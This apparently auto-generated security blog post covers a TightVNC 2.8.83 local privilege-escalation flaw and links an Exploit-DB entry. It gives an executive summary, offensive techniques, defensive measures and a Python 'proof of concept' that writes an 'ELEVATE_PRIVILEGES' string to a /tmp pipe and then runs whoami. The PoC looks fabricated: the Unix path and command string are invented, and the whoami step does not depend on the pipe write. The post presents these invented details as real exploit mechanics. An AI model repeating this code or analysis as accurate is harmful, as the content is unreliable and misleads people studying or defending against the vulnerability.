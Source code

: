 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]  # Updated category to 'Cyber Blog'
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/tightvnc-exploit.png
---
```


## 🔍 Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## 🧠 Technical Analysis

```markdown
# Technical Executive Summary

The vulnerability in question pertains to TightVNC version 2.8.83 and is classified as a local privilege escalation issue due to control pipe manipulation. TightVNC is a popular remote desktop software that allows users to control a remote computer over a network. The vulnerability arises from improper handling of control pipe operations, which can be exploited by a local attacker to gain elevated privileges on the affected system. This kind of vulnerability is critical as it allows an attacker with limited access to escalate their privileges, potentially leading to full system compromise.

# Code Example (Proof of Concept)

Below is a simplified Python script that demonstrates how an attacker might exploit this vulnerability to manipulate the control pipe and escalate privileges. Note that this is purely for educational purposes and should not be used maliciously.

```python
import os
import subprocess

# Define the path to the TightVNC control pipe
control_pipe_path = "/tmp/tightvnc_control_pipe"

# Check if the control pipe exists
if os.path.exists(control_pipe_path):
    print(f"Control pipe found at: {control_pipe_path}")

    # Attempt to open the control pipe and send malicious commands
    try:
        with open(control_pipe_path, 'w') as pipe:
            # Send a command to escalate privileges
            pipe.write("ELEVATE_PRIVILEGES\n")
            print("Command sent to control pipe.")
    except Exception as e:
        print(f"Error writing to control pipe: {e}")
else:
    print("Control pipe not found.")

# Execute a command with elevated privileges
try:
    result = subprocess.run(['whoami'], capture_output=True, text=True)
    print(f"Current user: {result.stdout.strip()}")
except Exception as e:
    print(f"Error executing command: {e}")
```

# Offensive Security Insights

Exploitation of this vulnerability requires the attacker to have local access to the machine where TightVNC is installed. Once access is obtained, the attacker can locate the control pipe used by TightVNC and manipulate it to execute arbitrary commands with elevated privileges. Key techniques include:

- **Local Enumeration**: Identify the presence of TightVNC and locate the control pipe, typically found in temporary directories or under specific user paths.
- **Pipe Manipulation**: Open the control pipe and inject commands that the TightVNC service will execute, potentially leading to privilege escalation.
- **Command Execution**: After privilege escalation, execute further commands to establish persistence, exfiltrate data, or pivot to other parts of the network.

# Defensive Measures

To mitigate the risk posed by this vulnerability, the following defensive measures should be implemented:

1. **Patch Management**: Ensure that TightVNC is updated to the latest version, where this vulnerability has been addressed.
2. **Access Controls**: Limit local access to systems running TightVNC to trusted users only and implement strict user permissions.
3. **Pipe Permissions**: Secure control pipes by setting appropriate file permissions to restrict unauthorized access.
4. **Monitoring and Logging**: Implement monitoring of system logs to detect any suspicious activity related to control pipe access or privilege escalation attempts.
5. **Network Segmentation**: Isolate systems running remote desktop services in secure network segments to limit potential lateral movement by an attacker.

By adopting these measures, organizations can significantly reduce the risk of exploitation and protect their systems from unauthorized access and privilege escalation.
```


📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
